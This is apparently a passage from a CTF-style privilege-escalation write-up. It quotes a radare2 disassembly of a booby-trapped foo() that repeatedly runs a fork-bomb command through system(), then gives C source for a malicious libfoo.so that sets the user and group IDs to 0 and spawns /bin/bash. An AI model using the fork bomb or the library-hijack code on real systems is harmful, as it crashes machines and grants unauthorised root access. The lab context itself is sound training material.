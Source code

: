 ```shell-session
│           0x00001129      488d3dd00e00.  lea rdi, str.Bwahaha__You_just_stepped_into_a_booby_trap_XP ; sym..rodata
│                                                                      ; 0x2000 ; "Bwahaha, You just stepped into a booby trap XP" ; const char *s                                                                 
│           0x00001130      e8fbfeffff     call sym.imp.puts           ; int puts(const char *s)
│           0x00001135      bf02000000     mov edi, 2                  ; int s
│           0x0000113a      e811ffffff     call sym.imp.sleep          ; int sleep(int s)
│           0x0000113f      488d3dea0e00.  lea rdi, str.sleep_2__func__funcfunc_cat__dev_urandom__func ; 0x2030 ; "sleep 2 && func(){func|func& cat /dev/urandom &};func" ; const char *string
│           0x00001146      e8f5feffff     call sym.imp.system         ; int system(const char *string)
│           0x0000114b      488d3dde0e00.  lea rdi, str.sleep_2__func__funcfunc_cat__dev_urandom__func ; 0x2030 ; "sleep 2 && func(){func|func& cat /dev/urandom &};func" ; const char *string
│           0x00001152      e8e9feffff     call sym.imp.system         ; int system(const char *string)
│           0x00001157      488d3dd20e00.  lea rdi, str.sleep_2__func__funcfunc_cat__dev_urandom__func ; 0x2030 ; "sleep 2 && func(){func|func& cat /dev/urandom &};func" ; const char *string
│           0x0000115e      e8ddfeffff     call sym.imp.system         ; int system(const char *string)
│           0x00001163      488d3dc60e00.  lea rdi, str.sleep_2__func__funcfunc_cat__dev_urandom__func ; 0x2030 ; "sleep 2 && func(){func|func& cat /dev/urandom &};func" ; const char *string
│           0x0000116a      e8d1feffff     call sym.imp.system         ; int system(const char *string)
│           0x0000116f      488d3dba0e00.  lea rdi, str.sleep_2__func__funcfunc_cat__dev_urandom__func ; 0x2030 ; "sleep 2 && func(){func|func& cat /dev/urandom &};func" ; const char *string
│           0x00001176      e8c5feffff     call sym.imp.system         ; int system(const char *string)
│           0x0000117b      90             nop
│           0x0000117c      5d             pop rbp
└           0x0000117d      c3             ret
[0x00001070]> 
```

- On analysis there is function called `foo()` which is putting some strings and sleep the program 

***

## Creating malicious libfoo.so

**Program 1**
```C
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h> 
int foo() { 
setgid(0); 
setuid(0); 
system("/bin/bash"); 
}
```
